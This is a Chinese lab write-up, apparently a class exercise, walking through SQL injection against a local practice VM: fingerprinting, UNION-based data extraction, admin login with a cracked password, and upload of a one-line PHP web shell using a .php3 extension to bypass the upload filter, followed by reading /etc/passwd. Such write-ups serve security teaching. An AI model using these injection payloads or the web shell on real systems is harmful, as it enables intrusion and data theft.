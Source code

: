 # 翻转课堂三-从SQL注入到Shell #

## 介绍 ##

攻击分为三步：
- Fingerprinting：收集有关Web应用程序和使用中的技术的信息
- Detection and exploitation of SQL injection：SQL注入工作原理以及利用它们来检索信息
- Access to the administration pages and code execution：访问操作系统和运行命令的最后一步

## 环境配置 ##

- 目标服务器：下载镜像并转入虚拟机

![](img/2.PNG)

- 攻击者主机：

![](img/attacker.PNG)

  - 设置攻击者浏览器：
  
![](img/attackerBrowser.PNG)
  
  - 打开 burpsuite 监听所有端口
  
![](img/burpsuiteALL.PNG)

  - 可以访问目标服务器
 
![](img/ping.PNG)


## 实验过程 ##

### Fingerprinting ###
#### Inspecting HTTP headers ####
- HTTP请求，可获得服务器信息及PHP版本信息

  - telnet

![](img/telnet.PNG)

  - 攻击者访问服务器，并用burpsuite查看信息

![](img/burpsuiteHTTP.PNG)

- HTTPS请求

   - 请求失败，说明应用程序没有运行在443端口

![](img/https.PNG)

#### Using a directory Buster ####

使用wfuzz检测远程文件与文件夹

![](img/wfuzz.PNG)

### Detection and exploitation of SQL injection ###

#### Detection of SQL injection SQL注入检测 ####

##### 基于整数的检测 #####

1. 访问http://10.0.2.15/cat.php?id=1

![](img/id1.PNG)

  - 与输入http://10.0.2.15/cat.php?id=2-1 相同。则可能存在SQL注入
  
![](img/id2-1.PNG)


2. 如果访问http://10.0.2.15/cat.php?id=1' (多打一个单引号)，则会收到错误提示

![](img/id11.PNG)

##### 基于字符串的检测 #####

- 奇数个 **'** 会导致语法错误，所以使用偶数个'来测试
- 使用 **--** 注释掉查询的结尾
- 使用**and '1'='1**（不改变查询语句的语义）和**and '1'='0**（改变查询语句的语义），对比发现漏洞

#### SQL注入的开发 ####
##### 利用UNION关键字进行SQL注入 #####

- 访问http://10.0.2.15/cat.php?id=1 union select 1  收到错误提示

![](img/union1.PNG)

- 反复测试，直至访问http://10.0.2.15/cat.php?id=1 union select 1,2,3,4 时得到正确页面，可知列的正确数量

![](img/union1234.PNG)

- 也可以用order by猜测列的数量。当输入列号大于正确列数时，报错

![](img/orderby.PNG)

##### 检索信息 #####

- 数据库版本信息

![](img/version.PNG)

- 当前用户信息

![](img/user.PNG)

- 数据库名

![](img/database.PNG)

- 获取数据库所有表名

![](img/tables.PNG)

- 获取数据库所有列名

![](img/columns.PNG)

- 获取表与列的对应关系

![](img/tablecolunm.PNG)

- 通过上图可知还存在用户名与密码字段，查询可得

![](img/loginpass.PNG)
 
 
### 访问管理页面和代码执行 ###
- 用网络解密工具将得到的密码进行解密，可得密码为 P4ssw0rd

- 根据得到的用户名和密码访问管理页面

![](img/login.PNG)

   - 登陆成功
   
   ![](img/loginsucc.PNG)

- 植入webshell

   - 找到上图中的文件上传按钮
   - 上传一个webshell.php文件，内容为
    > <?php
    >       system($_GET['cmd']);
    >     ?>
    
   - 当后缀为php时，被页面拒绝（该应用程序阻止文件扩展名为.php上传,使用php3为后缀名绕过.php的过滤)
   
   ![](img/file.PNG)
   
   - 改为php3的后缀名后，上传成功
   
   ![](img/filesucc.PNG)

- 访问植入的php文件

![](img/php.PNG)

- 查看审查元素

![](img/info.PNG)

- 获取页面大量信息

![](img/uname.PNG)

![](img/lotsinfo.PNG)

    - 如通过ls得到当前目录或上级目录信息
    - 通过cat /etc/passwd得到系统用户列表
    - 通过cat /etc/hosts等指令可以查看主机信息，更改网络配置，甚至重启系统

- 实验结束

